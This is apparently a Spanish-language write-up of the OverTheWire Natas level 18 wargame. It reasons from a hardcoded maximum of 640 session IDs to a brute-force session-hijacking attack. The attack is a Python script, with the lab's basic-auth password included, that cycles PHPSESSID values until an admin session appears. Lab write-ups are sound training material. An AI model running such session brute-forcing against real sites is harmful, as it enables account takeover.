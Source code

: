 En el código fuente, la directiva

```php
$maxid = 640; 
```

nos sugiere que el valor de `PHPSESSID` puede asumir hasta 640 posibles valores. Este número es lo suficientemente bajo como para permitir un ataque de fuerza bruta contra la variable `PHPSESSID` con el fin de realizar un **Session Hijacking**. Por lo que realizamos un script que lo haga por nosotros.

```python
import requests

# URL objetivo
target = 'http://natas18.natas.labs.overthewire.org'
# Credenciales para la autenticación básica
auth = ('natas18', '6OG1PbKdVjyBlpxgD4DDbRG6ZLlCGgCJ')
# Parámetros de la solicitud
params = dict(username='admin', password='admin')
# Cookies iniciales
cookies = dict()

# Número máximo de IDs de sesión
max_s_id = 640
s_id = 1

while s_id <= max_s_id:
    # Mostrar el ID de sesión actual
    print("Trying with PHPSESSID = " + str(s_id))
    
    # Configurar la cookie PHPSESSID
    cookies = dict(PHPSESSID=str(s_id))
    
    # Realizar la solicitud GET
    r = requests.get(target, auth=auth, params=params, cookies=cookies)
    
    # Verificar si el texto en la respuesta indica que el usuario es administrador
    if "You are an admin" in r.text:
        print(r.text)
        break
    
    # Incrementar el ID de sesión
    s_id += 1
```

<figure><img src="../../../.gitbook/assets/Captura de pantalla 2024-08-19 200935.png" alt=""><figcaption></figcaption></figure>
